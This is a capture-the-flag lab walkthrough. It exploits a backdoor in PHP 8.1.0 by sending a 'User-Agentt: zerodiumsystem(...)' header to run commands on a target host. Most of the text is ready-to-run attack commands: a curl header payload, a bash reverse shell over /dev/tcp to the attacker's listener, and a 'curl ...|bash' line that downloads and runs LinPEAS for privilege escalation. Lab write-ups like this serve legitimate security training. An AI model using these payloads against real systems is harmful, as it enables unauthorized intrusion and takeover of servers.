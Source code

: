 We learn that the web-server is `php 8.1.0`

If we pass a header value of `User-Agentt: zerodiumsystem("cmd")`, it should execute on the web-server.

We set up a web-server to listen:

```
sudo python3 -m http.server 80
```

To confirm our header code works we send, and wait for a 200 response on the web-server:

```
curl http://10.10.10.242/index.php -H 'User-Agentt: zerodiumsystem("curl 10.10.14.177");'
```

Set up netcat listener:

```
nc -nlvp 1234
```

Run the reverse shell:

```
curl http://10.10.10.242/index.php -H "User-Agentt: zerodiumsystem(\"bash -c 'bash -i &>/dev/tcp/10.10.14.177/1234 0>&1 '\");"
```

This gives us a shell for user James, we need to escalate privileges to root. To do this we download LinPEAS to our local via wget, then curl our local web-server to get the LinPEAS.

```
Local$ wget wget https://github.com/peass-ng/PEASS-ng/releases/download/20240714-cd435bb2/linpeas.sh

Local$ sudo python3 -m http.server 80

Attack$ curl 10.10.14.177/linpeas.sh|bash
```

The attack command will download the linpeas script on the attacking box and let us know what privilege escalation vulnerabilities are on the box.

